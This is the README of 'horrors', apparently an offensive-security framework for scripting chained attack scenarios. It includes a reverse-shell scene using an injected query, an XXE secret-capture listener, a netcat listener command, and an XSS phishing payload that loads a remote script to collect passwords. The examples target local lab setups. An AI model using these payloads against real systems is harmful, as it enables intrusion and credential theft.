

# horrors

> A micro-framework for writing attack scenarios starring multiple vulnerabilities.

## About

This framework was created in order to simplify attack automation and exploit development. All you have to do is, for example:

```python
class ReverseShell(scenarios.Scene):

    async def task(self):
        """Wait for `xxe` state triggered when remote client connects via FTP and sends the secret"""

        await self.http_post(
            'http://{rhost}:{rport}/query/'.format(**self.context),
            'secret={secret}&query=DROP+TABLE+IF+EXISTS+[...]{lhost}+{lport_reverse}'.format(**self.context)
        )

context = {
    'rhost': '127.0.0.1',
    'rport': 8008,
    'lhost': '127.0.0.1',
    'lport_reverse': 4444,
}

ftpd = services.FTPReader()
ftpd.add_event('xxe', when=events.DataMatch(r'.+SecretKey=(.+);', in_context='secret'))

story = scenarios.Scenario(context=context, debug=True, http_proxy='http://127.0.0.1:8080')
story.add_service(ftpd)
story.add_scene(ReverseShell, when='xxe')
story.play()
```

## Installation

    $ pip3 install git+https://github.com/tasooshi/horrors

## Example

Examples are included in the `horrors/examples` directory. Try it out by running:

### 1. vulnchain

    $ nc -lv4 4444
    examples/vulnchain:$ victim.py
    examples/vulnchain:$ attacker.py

[](https://www.youtube.com/watch?v=VQwysZItPrE)

### 2. xssphish

Or (this one requires interaction):

    examples/xssphish:$ victim.py
    examples/xssphish:$ attacker.py

Now visit `http://127.0.0.1:8008/?message=<script src="http://127.0.0.1:8888/fakequery.js"></script>`, type some passwords and watch `collected.json` for incoming credentials.



## Changelog

* **2021/12/23** Getting production ready (v0.6)
    * Major refactoring and backward incompatible changes
    * Added unit tests
    * Replaced Flask with Sanic framework
    * Scenes are now class-based
* **2021/12/14** Beta (v0.5)
    * Improved HTTP proxy logic
* **2021/12/12** Beta (v0.4)
    * A bit of asyncio cleaning up
    * Fixed examples to match the new API
    * Simplified services imports and generally everything
    * Changed default ports
    * Added requirements to setup.py
    * Replaced requests with aiohttp
* **2021/08/26** Beta (v0.3)
    * Yet another refactoring.
    * Added full HTTP support using Flask.
    * Added `utility/collector.py` to simplify data collection from exploited machines (and another related example).
* **2021/08/10** Beta (v0.2)
    * Refactored and largely simplified codebase: it is now easier to reuse code between multiple scenarios by mixing functions, wrapping in classes etc.
    * Steps are not executed sequentially, you decide depending on signals (events) registered when adding to scenario (`story.add(func, when='something')`).
    * Removed asyncio.Event dependency since I was not able to make it work the way I wanted.
* **2021/07/30** Initial release (v0.1)
